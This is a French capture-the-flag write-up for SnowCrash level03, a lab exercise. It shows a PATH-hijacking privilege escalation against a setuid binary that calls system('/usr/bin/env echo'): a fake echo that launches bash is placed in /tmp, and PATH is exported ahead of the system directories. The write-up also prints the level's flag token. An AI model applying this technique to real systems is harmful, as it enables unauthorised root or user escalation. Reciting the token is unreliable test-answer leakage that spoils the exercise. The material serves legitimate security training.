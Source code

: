 # Explication
On trouve un executable `level03`, qui affiche `Exploit me` quand on l'execute.  
On execute ltrace pour recuperer des informations dessus:
```
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                               = 2003
geteuid()                                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)     = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)     = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                  = 0
+++ exited (status 0) +++
```

En cherchant sur internet l'appel systeme (`system("/usr/bin/env echo Exploit me`) on tombe sur cette [page](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code/8304447)  
Qui nous donne une solution pour exploiter l'apple de `echo`, on va donc l'executer:

```
level03@SnowCrash:~$ echo "/bin/bash" > /tmp/echo
level03@SnowCrash:~$ chmod 777 /tmp/echo && export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$
```

On a crée un faux `echo` qui appel enfaite `/bin/bash`  
On donne tout les acces a ce fichier et on change le `PATH` pour que l'appel de `echo` appel `/tmp/echo`

Apres l'execution du programme on ce rend compte qu'on est connecté en tant que `flag03`  
L'executable `level03` appartenait a `flag03`, l'appel de bash a donc etait fait a son nom.

On peu faire la commande `getflag`
```
flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

